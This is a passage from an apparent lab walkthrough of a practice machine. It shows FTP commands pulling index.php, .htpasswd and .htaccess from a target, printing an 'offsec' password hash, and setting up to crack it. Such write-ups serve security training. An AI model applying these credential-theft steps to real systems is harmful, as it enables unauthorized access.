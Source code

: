 ```
ftp>
```

Inside this user's directory, we find three files: **index.php**, **.htpasswd**, and **.htaccess**. Let's download them to our attack machine for closer inspection.

```
ftp> get index.php
local: index.php remote: index.php
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
76 bytes received in 0.10 secs (0.7232 kB/s)
ftp> get .htpasswd
local: .htpasswd remote: .htpasswd
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
45 bytes received in 0.11 secs (0.4185 kB/s)
ftp> get .htaccess
local: .htaccess remote: .htaccess
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
161 bytes received in 0.10 secs (1.5832 kB/s)
ftp> bye
221 Goodbye.
kali@kali:~$
```

The **index.php** file doesn't contain anything of value.

The **.htpasswd** file contains a password hash for the `offsec` user.

```
kali@kali:~$ cat .htpasswd 
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

The **.htaccess** file indicates that the **.htpasswd** file is used for authentication.

```
kali@kali:~$ cat .htaccess
AuthName "Qui e nuce nuculeum esse volt, frangit nucem!"
AuthType Basic
AuthUserFile c:\\wamp\www\.htpasswd
<Limit GET POST PUT>
Require valid-user
</Limit>kali@kali:~$
```

This means that if we crack the hash, we can authenticate as the `offsec` user.

### Password Cracking
